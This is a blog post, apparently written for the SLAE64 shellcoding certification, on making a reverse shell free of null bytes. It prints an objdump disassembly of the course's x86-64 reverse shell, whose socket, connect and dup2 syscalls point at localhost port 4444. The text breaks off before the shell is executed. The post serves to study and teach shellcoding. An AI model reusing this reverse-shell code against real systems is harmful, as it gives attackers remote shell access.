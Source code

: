 ```yaml
---
title: SLAE64 - Assignment 2B - Null-Free Bind Reverse Shellcode
author: fwinsnes
date: 2021-01-23 13:44:00 +0800
categories: [SLAE64]
tags: [assembly, shellcoding]
---
```


These series of posts starting with the prefix "SLAE64 - Assignment" will be created in order to fulfill the requirements of the SLAE64 certification.

A Reverse shell is a form of malware which grants remote access to a system through a shell. However, it differentiates from its peer the Bind Shell, arranging a specific 
connection on a trivial address, instead of binding the compromised device into a certain port. Furthermore, after the connection is established, a shell is executed, granting 
interaction to the attacker.

The first assignment from the seven is divided in two sections:

+ A: Requires the creation of a Reverse Shell with password protection through the Assembly language, and converting such into shellcode. 
+ B: Requires the alteration of the provided Reverse Shell during the course, in order that it no longer possesses any form of NULL bytes (00). 

Due to the reason that in the [previous](https://whitecr0wz.github.io/posts/SLAE64-Reverse-Password/) post the first section of the exercise was tackled, this post will be focused 
towards the secondary task.

Let's analyze the Reverse Shell given during the course:

```term
hitecr0wz@SLAE64:~/assembly/assignments/Assignment_2/B/og$ objdump -D 1.o -M intel 

1.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:   b8 29 00 00 00          mov    eax,0x29
   5:   bf 02 00 00 00          mov    edi,0x2
   a:   be 01 00 00 00          mov    esi,0x1
   f:   ba 00 00 00 00          mov    edx,0x0
  14:   0f 05                   syscall 
  16:   48 89 c7                mov    rdi,rax
  19:   48 31 c0                xor    rax,rax
  1c:   50                      push   rax
  1d:   c7 44 24 fc 7f 00 00    mov    DWORD PTR [rsp-0x4],0x100007f
  24:   01 
  25:   66 c7 44 24 fa 11 5c    mov    WORD PTR [rsp-0x6],0x5c11
  2c:   66 c7 44 24 f8 02 00    mov    WORD PTR [rsp-0x8],0x2
  33:   48 83 ec 08             sub    rsp,0x8
  37:   b8 2a 00 00 00          mov    eax,0x2a
  3c:   48 89 e6                mov    rsi,rsp
  3f:   ba 10 00 00 00          mov    edx,0x10
  44:   0f 05                   syscall 
  46:   b8 21 00 00 00          mov    eax,0x21
  4b:   be 00 00 00 00          mov    esi,0x0
  50:   0f 05                   syscall 
  52:   b8 21 00 00 00          mov    eax,0x21
  57:   be 01 00 00 00          mov    esi,0x1
  5c:   0f 05                   syscall 
  5e:   b8 21 00 00 00          mov    eax,0x21
  63:   be 02 00 00 00          mov    esi,0x2
  68:   0f 05                   syscall 
```